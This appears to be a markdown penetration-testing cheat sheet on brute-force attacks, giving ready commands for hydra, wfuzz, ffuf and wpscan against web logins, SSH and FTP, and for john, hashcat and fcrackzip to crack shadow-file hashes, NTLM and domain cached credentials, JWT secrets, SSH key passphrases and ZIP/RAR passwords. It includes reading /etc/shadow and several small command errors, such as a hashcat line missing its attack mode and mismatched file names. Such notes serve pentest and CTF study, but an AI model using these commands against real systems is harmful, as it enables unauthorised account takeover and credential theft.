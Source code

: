 ```yaml
---
title: 3 - Brute Force
---
```


# Words Lists :

---

* <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/best1050.txt</font>
* <font color=lightblue>/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt</font>
* <font color=lightblue>/usr/share/wordlists/metasploit/unix_passwords.txt</font>

# HTTP POST Login Page

---

### WFUZZ


 > 
 > **<font color=red>wfuzz -c -z file,</font>myWordList -u http://\[TARGET_IP\]:\[TARGET_PORT\]/login.php -d “username=<font color=red>FUZZ</font>&password=<font color=red>FUZZ</font>”</br>**
 > Fuzz Login.

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -L</font> myUsersFile.txt  <font color=red>-P</font> /usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>http-post-form ‘</font>/path/to/form.php<font color=red>:</font>username<font color=red>=^USER^&</font>password<font color=red>=^PASS^&</font>login=Login:<font color=red>F=</font>ChainNotOK<font color=red>’</font>**</br>
 > Brute Force HTTP POST form with valid username.

---

### FUFF

WPSCAN> **<font color=red>ffuf -w </font>myUsersFile.txt<font color=red>:W1,</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font><font color=red>:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u</font> http://\[TARGET_IP\]/login <font color=red>-fc 200</font>**</br>

 > 
 > Brute Force HTTP POST form with valid username.

---

### WPSCAN (WordPress)


 > 
 > **<font color=red>wpscan --url </font>http://\[TARGET_IP\]/blog <font color=red>--usernames</font> admin <font color=red>--passwords</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Brute force WordPress user's credentials.

# HTTP Basic Access Auth

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P</font> /usr/share/wordlists/rockyou.txt \[TARGET_IP\]<font color=red>http-get</font> /path/**</br>
 > Brute Force HTTP Basic Access Authentication.

# SSH

---

### HYDRA


 > 
 > **<font color=red>hydra -L</font> myUsersFile <font color=red>-P</font> myPassFile \[TARGET_IP\]<font color=red>ssh</font>**</br>
 > Brute Force SSH.

# SSH Private Key Passphrase

---

### JOHN


 > 
 > **<font color=red>/usr/share/john/ssh2john.py</font> private_key <font color=red>\></font> forjohn.txt**</br>
 > Prepare private key for John.
 > 
 > **<font color=red>john --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> forjohn.txt**</br>
 > Crack private key passphrase.

# FTP

---

### HYDRA


 > 
 > **<font color=red>hydra -vV -l </font>myUser <font color=red>-P </font>/usr/share/wordlists/rockyou.txt  \[TARGET_IP\] <font color=red>ftp</font>**</br>
 > Brute Force FTP Login.

# Linux Unshadow

---

### JOHN


 > 
 > **<font color=red>unshadow /etc/passwd /etc/shadow ></font> unshadowd.txt**</br>
 > Prepare passwd and shadow file for John.
 > 
 > **<font color=red>john unshadow.txt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack user passwords.
 > 
 > **<font color=red>john --show</font> unshadow.txt**</br> 
 > Display cracked passwords.

# JWT

---

### JOHN


 > 
 > **<font color=red>john --format=HMAC-SHA512</font> jwt.txt <font color=red>--show</font>**</br>
 > Crack JWT secret.

### JWT-CRACKER


 > 
 > **<font color=red>jwt-cracker </font> \[myToken\] \[myAlphabet\] \[myMaxSecretLengthExpected\]**</br>
 > Crack JWT token password.

Default Alphabet : abcdefghijklmnopqrstuvwxyz

# MD5

---

### JOHN


 > 
 > **<font color=red>john --format=md5crypt --wordlist=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt**</br>
 > Crack MD5 hash.

# NTLM

---

### JOHN


 > 
 > **<font color=red>john --format=NT -w=</font><font color=lightblue>/usr/share/wordlists/rockyou.txt</font> hash.txt <font color=red>--pot=</font>output.txt**</br>
 > Crack NTLM Hash.

# DCC

---

### HASHCAT


 > 
 > **<font color=red>hashcat -a 0 -m 1100 0 '</font>15a57c379ebdfea572ad1ff91eb6ef0c:Administrator<font color=red>'</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack DCC (Domain Cached Credentials) hash.

# ZIP

---

### JOHN


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forjohn.txt**</br>
 > Prepare ZIP archive for John.

 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack ZIP archive password.

---

### HASHCAT


 > 
 > **<font color=red>zip2john</font> myFile.zip <font color=red>\></font> forhashcat.txt**</br>
 > Remove name of the file and archive from the hash (at the beginning and the end).

 > 
 > **<font color=red>hashcat -a -m 13600</font> forhashcat.txt <font color=lightblue>/usr/share/wordslist/rockyou.txt</font>**</br>
 > Crack ZIP archive password.

---

### FCRACKZIP


 > 
 > **<font color=red>fcrackzip -v -D -p</font> <font color=lightblue>/usr/share/wordlists/rockyou.txt</font> <font color=red>-u </font>myZipFile.zip**</br>
 > Crack ZIP archive password.

# RAR

---

## JOHN


 > 
 > **<font color=red>rar2john</font> myFile.rar <font color=red>\></font> forjohn.txt**</br>
 > Prepare RAR archive for John.
 > 
 > **<font color=red>john</font> forjohn.txt**</br>
 > Crack RAR archive password.
